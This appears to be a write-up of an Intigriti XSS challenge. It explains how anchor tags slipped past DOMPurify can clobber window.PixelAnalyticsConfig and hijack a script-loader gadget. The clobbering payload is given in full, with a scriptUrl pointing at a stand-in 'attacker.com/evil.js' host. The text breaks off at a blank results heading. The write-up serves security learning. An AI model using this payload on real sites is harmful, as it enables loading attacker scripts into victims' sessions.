

# Intigriti XSS Challenge — May 2026 🕹️
### Pixel Pioneers | DOM Clobbering + Script Gadget Hijack

---

The challenge runs a retro arcade SPA with a community testimonials feed. The testimonial content goes through DOMPurify — but that doesn't matter, because DOMPurify doesn't block `<a>` tags with `id` and `name` attributes. By injecting three carefully crafted anchor elements, I clobbered `window.PixelAnalyticsConfig` and hijacked a script loader gadget already sitting in the app's own code. One click from the victim. No interaction beyond visiting the page.

---

## Recon — Reading the Source

The app is a single-page app with hash-based routing. Three things immediately stood out when reading `app.js`:

**1. Testimonial content is sanitized, but the author's name is not:**
```javascript
nameDiv.innerHTML = t.user_name;  
textDiv.innerHTML = DOMPurify.sanitize(t.content); 
```

**2. There's a script loader gadget running right after the feed renders:**
```javascript
let config = window.PixelAnalyticsConfig || { enabled: false, scriptUrl: '/js/mock-tracker.js' };
if (config.enabled) {
    let s = document.createElement('script');
    s.src = config.scriptUrl;
    document.body.appendChild(s);
}
```

This gadget reads from `window.PixelAnalyticsConfig`. If I can control that object, I control what script gets loaded.

**3. DOMPurify version is 3.0.9** — and by default it does **not** enable `SANITIZE_DOM`, which means DOM clobbering via `<a>` tags is completely allowed.

So the question became: can I inject `<a>` tags through the testimonial content field to clobber `window.PixelAnalyticsConfig`?

Answer: yes

---

## The Vulnerability

### Why DOMPurify Doesn't Save It

DOMPurify is great at blocking the obvious stuff — `<script>`, `onerror`, `javascript:` hrefs, and so on. But `<a id="something" name="something" href="//example.com">` is perfectly valid, harmless-looking HTML. DOMPurify passes it through without complaint.

DOM clobbering is only blocked if you explicitly configure `{ SANITIZE_DOM: true }`. This challenge doesn't.

### How DOM Clobbering Works Here

When multiple elements in the DOM share the same `id`, the browser exposes them as an `HTMLCollection` on `window` under that id. You can then access named members of that collection using the `name` attribute on individual elements.

So if I inject:
```html
<a id="PixelAnalyticsConfig"></a>
<a id="PixelAnalyticsConfig" name="enabled"></a>
<a id="PixelAnalyticsConfig" name="scriptUrl" href="//attacker.com/evil.js"></a>
```

Then:
The gadget's `if (config.enabled)` passes, and `s.src = config.scriptUrl` resolves to my URL — because assigning a DOM element to `script.src` calls `.toString()` on it, and `<a>.toString()` returns the element's fully resolved `href`.

---

## The Payload

Posted as **testimonial content** (not the display name):

```html
<a id="PixelAnalyticsConfig"></a>
<a id="PixelAnalyticsConfig" name="enabled"></a>
<a id="PixelAnalyticsConfig" name="scriptUrl" href="//myhost.com"></a>
```

### Why `//` instead of `https://`

Protocol-relative URL. It inherits whatever protocol the challenge page uses, avoiding mixed-content blocking on HTTPS pages.

### The External Script

Hosted at `myhost.com` with:
- `Content-Type: text/javascript`
- Body: `alert(1)`

### Results:

